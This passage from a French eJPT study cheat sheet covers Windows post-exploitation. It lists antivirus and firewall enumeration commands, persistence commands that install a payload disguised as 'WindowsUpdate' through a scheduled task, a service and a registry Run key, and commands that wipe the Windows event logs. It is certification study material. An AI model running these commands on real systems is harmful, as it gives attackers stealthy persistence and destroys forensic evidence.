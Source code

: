 ### Antivirus et EDR
| Commande | Description |
|----------|-------------|
| `wmic /namespace:\\root\securitycenter2 path antivirusproduct` | Antivirus installés |
| `sc query windefend` | Windows Defender |
| `netsh advfirewall show allprofiles` | État firewall |

---

## 🔧 9. Post-exploitation

### Persistence
| Technique | Commande |
|-----------|----------|
| **Tâche planifiée** | `schtasks /create /tn "WindowsUpdate" /tr "C:\temp\payload.exe" /sc onlogon /ru System` |
| **Service** | `sc create "WindowsUpdate" binPath= "C:\temp\payload.exe"` |
| **Registre Run** | `reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\temp\payload.exe"` |

### Nettoyage des traces
| Commande | Description |
|----------|-------------|
| `wevtutil cl System` | Effacer logs système |
| `wevtutil cl Security` | Effacer logs sécurité |
| `wevtutil cl Application` | Effacer logs application |

---

## 💡 10. Conseils pour l'eJPT

### Workflow recommandé
1. **Énumération manuelle** → `whoami`, `systeminfo`, `net user`
2. **Script automatisé** → PrivescCheck.ps1 ou WinPEAS
3. **Recherche d'exploits** → Selon version Windows
4. **Test credentials** → Registry, fichiers config
5. **Exploitation** → runas, PsExec, ou exploit kernel
6. **Persistence** → Si nécessaire pour le lab

### Points d'attention eJPT
- **Toujours commencer par l'énumération manuelle**
- **PrivescCheck.ps1 est très efficace** pour trouver des misconfigurations
- **Vérifier le registre** pour AutoLogon credentials
- **Tester runas** avec credentials trouvés
- **Metasploit HTA** est une technique courante dans les labs
- **Documenter toutes les étapes** pour le rapport
